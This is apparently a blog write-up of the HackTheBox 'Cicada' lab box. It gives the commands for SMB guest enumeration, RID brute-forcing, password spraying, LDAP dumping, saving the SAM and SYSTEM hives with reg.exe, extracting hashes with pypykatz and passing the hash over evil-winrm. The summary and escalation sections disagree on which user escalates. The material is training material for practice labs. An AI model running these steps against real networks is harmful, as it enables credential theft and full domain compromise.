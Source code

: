 ```yaml
---
layout: post
title:  "HackTheBox | Cicada"
description: "walkthrough of cicada machine, and Easy rated box from HackTheBox"
date: "2024-10-16"
pin: false
image:
  path: ../assets/img/ctf/hackthebox/cicada/cicada1.png
  alt: cicada.htb
category: "HackTheBox"
tags: ["Active Directory", "Guest account", "Backup Operators"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[cicada](https://app.hackthebox.com/machines/627) is an easy-rated Windows box from HackTheBox. The box is a domain controller and is fairly straightforward. The foothold involves abusing the guest account to enumerate users and shares. In the HR share, we find a password that can be used for password spraying on the accounts enumerated earlier. Using a valid pair of credentials, we enumerate through LDAP and find another password in the description attribute of an account. The newly discovered user provides access to the DEV share, where a backup script contains the credentials for the david.orelious user. The user david.orelious is a member of two major groups: the Remote Management Users group and the Backup Operators group. The privilege escalation involves abusing the rights of the Backup Operators group to gain access to the SAM database of the domain controller, ultimately leading to full system compromise.

------------------------------------------------------------------------------------------

## Enumeration
We start by a full scan to discover all tcp opened ports... 
### All Open Ports
```bash
rustscan -a 10.129.111.126
```
### Services Scanning
```bash
nmap -p... -sC -sV -v -oN cicada.full 10.129.111.126
```
```text
# Nmap 7.94SVN scan initiated Sun Sep 29 11:17:19 2024 as: nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,63001 -sC -sV -v -oN cicada.full 10.129.111.126
Nmap scan report for cicada.htb (10.129.111.126)
Host is up (0.047s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-29 17:17:26Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
63001/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-09-29T17:18:17
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 29 11:18:56 2024 -- 1 IP address (1 host up) scanned in 97.07 seconds
```
### Hostname
```bash
echo '10.129.111.126  cicada.htb'  >> /etc/hosts
```
## Foothold
We can confirm that the guest account is enabled in active directory domain...using the guest accont we enumerate shares and access publicly available ones
```bash
nxc smb 10.129.111.126 -u guest -p '' --shares 
```
![shares](../assets/img/ctf/hackthebox/cicada/cicada2.png)
```bash
smbclient \\\\10.129.111.126\\HR -U guest 
```
![HR 1](../assets/img/ctf/hackthebox/cicada/cicada3.png)
![HR 2](../assets/img/ctf/hackthebox/cicada/cicada4.png)
RID Cycling Attack...
```bash
nxc smb cicada.htb -u guest -p '' --rid-brute 10000 
```
![Users](../assets/img/ctf/hackthebox/cicada/cicada5.png)

```bash
nxc smb 10.129.111.126 -u users.txt -p 'fakepassword' 
```
![password spaying](../assets/img/ctf/hackthebox/cicada/cicada6.png)
```bash
ldapdomaindump  'ldap://cicada.htb' -u 'cicada.htb\michael.wrightson' -p 'fakepasswod' -o lootme
```
![ldapdomaindump 1](../assets/img/ctf/hackthebox/cicada/cicada7.png)
![ldapdomaindump 2](../assets/img/ctf/hackthebox/cicada/cicada8.png)
```sh
nxc smb 10.129.111.126 -u david.orelious -p 'fakapassword'
```
![DEV Share](../assets/img/ctf/hackthebox/cicada/cicada9.png)
![Backup script](../assets/img/ctf/hackthebox/cicada/cicada10.png)
## Privilege Escalation
Emily is member of Remote Management Users and Backup Operators...We can connect over winrm using evil-winrm tool. (By the time writting this i've notice i didn't make when i was pwning the box...)
```bash
evil-winrm -i cicada.htb -u emily.oscars -p 'fakepassword'
```
Since emily.oscars  user is member of the Backup Operators group we can take a copy of the SAM and SYSTEM hives using the reg.exe tool. after using the pypykatz tool we can decrypt the sam database and extract ntlm hashes.
```powershell
reg.exe save HKLM\sam C:\Users\emily.oscars.CICADA\Desktop\sam.hive
reg.exe save HKLM\system C:\Users\emily.oscars.CICADA\Desktop\system.hive
```
pypykatz...
```bash
pypykatz registry --sam sam.hive system.hive
```
![sam content](../assets/img/ctf/hackthebox/cicada/cicada11.png)
```bash
evil-winrm -i cicada.htb -u administrator -H 2b87e7c93a3e8a***************
```
![Adminitrator](../assets/img/ctf/hackthebox/cicada/cicada12.png)

## Kill Chain Summary
1. Abuse the guest account to enumerate shares and users.
2. Use the password found in the HR share and perform a password sprying attack.
3. Performa Ldap enumeration and discover a password in users description.
4. Enumerate Shares again with the new creds and discover harcoded credentials in a backup script.
5. Abuse the Backup Operators group rights.

## References
[rid cycling attack](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/rid-cycling)<br>
[backup operators group abuse](https://www.bordergate.co.uk/backup-operator-privilege-escalation/)<br>